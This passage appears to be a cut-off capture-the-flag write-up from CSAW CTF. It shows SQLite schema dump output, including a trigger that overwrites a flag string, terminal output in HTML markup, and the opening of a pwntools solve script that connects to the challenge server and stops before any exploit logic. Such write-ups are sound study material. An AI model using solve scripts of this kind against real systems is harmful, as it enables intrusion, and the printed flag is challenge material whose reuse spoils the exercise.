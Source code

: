 type = table
name = cuzarblonk
tbl_name = cuzarblonk
rootpage = 9
sql = CREATE TABLE cuzarblonk(DATA TEXT)

type = table
name = flutterquap
tbl_name = flutterquap
rootpage = 10
sql = CREATE TABLE flutterquap(DATA TEXT)

type = table
name = glrixatorb
tbl_name = glrixatorb
rootpage = 11
sql = CREATE TABLE glrixatorb(DATA TEXT)

type = table
name = queezlepoff
tbl_name = queezlepoff
rootpage = 12
sql = CREATE TABLE queezlepoff(DATA TEXT)

type = table
name = gazorpazorp
tbl_name = gazorpazorp
rootpage = 13
sql = CREATE TABLE gazorpazorp(DATA TEXT)

type = table
name = nogglyblomp
tbl_name = nogglyblomp
rootpage = 14
sql = CREATE TABLE nogglyblomp(DATA TEXT)

type = trigger
name = hide_corp_secrets
tbl_name = brainflop
rootpage = 0
sql = CREATE TRIGGER hide_corp_secrets
        AFTER INSERT ON brainflop
        BEGIN 
            UPDATE heartworp SET DATA = replace(DATA, &quot;csawctf{ur_sup3r_d4ta_B4S3D!!}&quot;, &quot;wowzers you&apos;re too late!&quot;);
        END

[<font color="#005DD0"><b>*</b></font>] Got EOF while reading in interactive
<font color="#C01C28"><b>$</b></font> <span style="background-color:#FFFFFF"><font color="#1E1E1E"> </font></span>
</code></pre>

Full solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.38.so")

context.binary = exe

if args.REMOTE:
    r = remote("pwn.csaw.io", 9999)
else:
```